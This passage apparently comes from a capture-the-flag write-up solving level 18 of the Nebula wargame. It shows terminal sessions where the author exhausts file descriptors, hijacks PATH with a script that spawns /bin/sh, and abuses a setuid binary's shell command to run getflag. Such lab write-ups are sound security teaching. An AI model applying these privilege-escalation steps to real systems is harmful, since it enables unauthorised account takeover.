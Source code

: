```bash
logged in successfully (without password file)
closelog
got [closelog] as input
shell
/tmp/log: line 1: Starting: command not found
/tmp/log: line 2: got: command not found
/tmp/log: line 3: attempting: command not found
/tmp/log: line 4: syntax error near unexpected token `('
/tmp/log: line 4: `logged in successfully (without password file)'
```

The line `Starting: command not found` was as close as I could get to some form of controlled command execution. So, I created this file, exported it into my `PATH` and used it to prepare a small SETUID C shell.

So, to solve level18:

```bash
level18@nebula:~$ vim /var/tmp/Starting
level18@nebula:~$ chmod +x /var/tmp/Starting
level18@nebula:~$ cat /var/tmp/Starting
#!/bin/sh
/bin/sh

level18@nebula:~$ tail -f /tmp/log &
[1] 7627

level18@nebula:~$ Starting up. Verbose level = 3
got [login egg] as input
attempting to login
logged in successfully (without password file)
got [closelog] as input

level18@nebula:~$ export PATH=/var/tmp:$PATH
level18@nebula:~$ ulimit -n 4

level18@nebula:~$ ~flag18/flag18 --rcfile -d /tmp/log -vvv
-sh: start_pipeline: pgrp pipe: Too many open files
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
tail: /tmp/log: file truncated
Starting up. Verbose level = 3
login egg
got [login egg] as input
attempting to login
logged in successfully (without password file)
closelog
got [closelog] as input
shell

sh-4.2$ getflag
sh: start_pipeline: pgrp pipe: Too many open files
You have successfully executed getflag on a target account
```
